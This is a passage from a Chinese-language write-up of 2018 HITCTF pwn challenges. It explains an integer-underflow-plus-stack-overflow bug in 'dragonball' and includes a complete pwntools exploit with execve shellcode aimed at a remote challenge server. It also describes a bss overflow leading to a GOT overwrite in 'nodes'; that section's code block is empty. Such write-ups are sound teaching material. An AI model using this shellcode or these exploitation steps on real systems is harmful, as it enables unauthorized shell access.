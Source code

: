 ```python
			io.close()
			break;
		
		else:
			io.close()

print "flag: " + flag
print "passwd: " + passwd
```
## <span id="3">dragonball(200)</span>
程序初始提供了15元，购买一个DragonBall花费5元，出售一个获得3元，集齐7个DragonBall可以执行许愿函数wish，wish函数存在栈溢出，可以泄露栈地址和覆盖函数的返回地址
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn250_DragonBall/images/1.png?raw=true)
用checksec检查程序，发现nx和canary都关闭了，那么就可以用shellcode来拿shell。那么问题是怎么集齐7龙珠。
	分析买卖流程，发现购买函数只检查了钱是否为0的情况，而且用于存储钱的变量是一个无符号整数，那么可以通过买卖操作让钱向下溢出而变大，就有足够的钱来买龙珠了。
```python
from pwn import *

shellcode  =  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

def buy():
	p.recvuntil("You choice: ")
	p.sendline('1')
	p.recvuntil("Success!\n")
def sell():
	p.recvuntil("You choice: ")
	p.sendline('2')
	p.recvuntil("Success!\n")

#p = process('./DragonBall')
p = remote('111.230.132.82',40002)

p.recvuntil("You have 15 yuan in total, use them to collect 7 Dragon balls!\n\n")
buy()
sell()
for i in range(7):
	buy()

p.recvuntil("You choice: ")
p.sendline('4')
p.recvuntil("Tell me your wish: ")
p.send('a' * 0x68)
p.recvuntil('a' * 0x68)
ebp = int(p.recv(4)[::-1].encode('hex'),16)
print hex(ebp)
#gdb.attach(p)
p.send(shellcode + (0x3c - len(shellcode)) * 'a' + p32(ebp - 0x58))
p.interactive()
p.close()
```
## <span id="4">nodes(350)</span>
程序实现了一个单链表，可以插入、编辑节点，查看所有节点的内容，节点的结构体如下所示：
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn350_nodes/images/1.png?raw=true)
在生成和编辑节点时，data的输入长度由变量unk_804A080决定，unk_804A080初始为0x30。每完成一次插入，用于统计节点数量的全局变量dword_804A04C会+1，然后程序打印当前节点的数量，打印之前先用sprintf把字符串拷贝到char byte_804A060[32]上。
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn350_nodes/images/2.png?raw=true)
观察char byte_804A060[32]和unk_804A080的位置，发现当节点数量大于等于100时，sprintf拷贝到char byte_804A060[32]会覆盖unk_804A080的值，造成一个bss节上的溢出，unk_804A080的值变大了，再次编辑节点时，就可以通过输入data来覆盖结构体上的next指针，利用edit和list函数来实现任意地址的读写，可以修改puts@got为system，然后在节点的data上输入/bin/sh来获取shell，exp如下：
```python
```